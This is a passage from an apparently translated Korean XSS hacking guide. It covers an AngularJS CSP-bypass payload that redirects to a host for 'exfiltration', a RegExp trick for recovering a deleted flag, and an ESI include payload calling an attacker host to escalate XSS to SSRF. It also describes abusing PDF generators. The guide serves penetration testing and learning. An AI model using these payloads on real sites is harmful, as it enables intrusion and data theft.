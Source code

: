 ```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
### 정규식 - 숨겨진 콘텐츠에 액세스

[**이 설명서**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay)에서는 일부 값이 JS에서 사라져도 다른 객체의 JS 속성에서 그 값을 찾을 수 있다는 것을 알 수 있습니다. 예를 들어, 정규식의 입력이 제거된 후에도 해당 입력의 값을 찾을 수 있습니다.
```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```
### 브루트포스 목록

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## 다른 취약점을 악용한 XSS

### 마크다운에서의 XSS

렌더링될 마크다운 코드를 삽입할 수 있습니까? XSS를 얻을 수 있을까요! 확인해보세요:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS에서 SSRF로

**캐싱을 사용하는 사이트**에서 XSS를 얻었나요? 이 페이로드로 Edge Side Include Injection을 통해 **SSRF로 업그레이드**해보세요:
```python
<esi:include src="http://yoursite.com/capture" />
```
쿠키 제한, XSS 필터 등을 우회하는 데 사용하세요!\
이 기술에 대한 자세한 정보는 여기에서 확인하세요: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### 동적으로 생성된 PDF에서의 XSS

웹 페이지가 사용자 제어 입력을 사용하여 PDF를 생성하는 경우, PDF를 생성하는 **봇을 속일 수 있습니다**.\
따라서, **PDF 생성 봇이** 어떤 종류의 **HTML** **태그를 발견하면**, 해당 태그를 **해석**하고, 이 동작을 **악용**하여 **서버 XSS**를 유발할 수 있습니다.
